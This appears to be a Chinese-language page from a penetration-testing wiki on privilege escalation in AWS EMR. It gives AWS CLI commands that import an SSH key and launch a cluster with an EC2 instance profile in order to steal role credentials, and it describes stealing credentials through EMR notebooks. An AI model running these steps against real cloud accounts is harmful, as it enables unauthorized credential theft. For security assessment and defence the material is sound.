 # AWS - EMR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EMR

更多关于 **EMR** 的信息在：

{{#ref}}
../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以 **运行一个新的 EMR 集群并附加 EC2 角色**，并尝试窃取其凭证。\
请注意，为了做到这一点，您需要 **知道在账户中导入的一些 ssh 私钥** 或导入一个，并能够 **在主节点上打开 22 端口**（您可能能够通过 `--ec2-attributes` 中的 `EmrManagedMasterSecurityGroup` 和/或 `ServiceAccessSecurityGroup` 属性来做到这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意如何在 `--service-role` 中指定 **EMR 角色**，以及在 `--ec2-attributes` 中指定 **ec2 角色**，位于 `InstanceProfile` 内。然而，这种技术仅允许窃取 EC2 角色凭证（因为您将通过 ssh 连接），而无法窃取 EMR IAM 角色。

**潜在影响：** 提升到指定的 EC2 服务角色。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

拥有这些权限的攻击者可以进入 **AWS 控制台**，创建一个 Notebook 并访问它以窃取 IAM 角色。

> [!CAUTION]
> 即使您在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭此权限，攻击者将能够访问 **Jupyter Notebook 并窃取与之关联的 IAM 角色**。\
Notebook 的 URL 是 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

> [!CAUTION]
> 即使您在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{{#include ../../../banners/hacktricks-training.md}}
